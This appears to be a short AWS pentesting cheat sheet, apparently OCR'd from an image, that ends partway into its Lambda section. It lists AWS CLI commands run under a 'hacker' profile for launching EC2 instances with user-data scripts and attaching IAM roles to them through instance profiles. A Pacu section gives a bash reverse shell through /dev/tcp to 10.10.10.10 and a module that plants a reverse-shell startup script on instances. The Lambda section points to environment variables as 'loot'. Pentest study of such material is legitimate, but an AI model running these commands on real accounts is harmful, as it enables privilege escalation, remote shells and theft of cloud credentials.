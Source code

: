 Run an instance 

`aws ec2 run-instances --image-id ami-01cc34ab2709337aa --instance-type t2.micro --region us-east-1 --profile hacker`

Run instance with userdata script

`aws ec2 run-instances --image-id ami-abcd1234 --count 1 --instance-type m3.medium \
--key-name my-key-pair --subnet-id subnet-abcd1234 --security-group-ids sg-abcd1234 \
--user-data file://my_script.txt` 

See instance userdata

`aws ec2 describe-instance-attribute --instance-id i-1234567890abcdef0 --attribute userData` 

Get instance state 

`aws ec2 describe-instances --instance-ids i-12345678901234567 --profile hacker --region us-east-1 | jq '.Reservations[].Instances[].State'` 

Create an instance profile 

`aws iam create-instance-profile --instance-profile-name my_instance_profile --profile hacker`

Add a role to newly created or existing profile (Attach desired policies to role above!)

`aws iam add-role-to-instance-profile --role-name existing_role --instance-profile-name my_instance_profile --profile hacker`

Associate instance profile with instance

`aws ec2 associate-iam-instance-profile --instance-id i-12345678901234567 --iam-instance-profile Name=my_instance_profile --profile hacker --region us-east-1` 

Verify association 

`aws ec2 describe-iam-instance-profile-associations --association-ids iip-assoc-12345678901234567 --profile hacker --region us-east-1`

Stop an instance 

`aws ec2 stop-instances --profile hacker --region us-east-1 --instance-ids i-12345678901234567`

---

## Pacu 

Simple Bash Reverse Shell

`bash -i >& /dev/tcp/10.10.10.10/8080 0>&1` 

EC2 Reverse Shell 

`run ec2__startup_shell_script --script reverseShell.sh --instance-ids i-12345678901234567@us-east-1` 

## Lambda

List functions. Inspect ENV variables for juicy loot
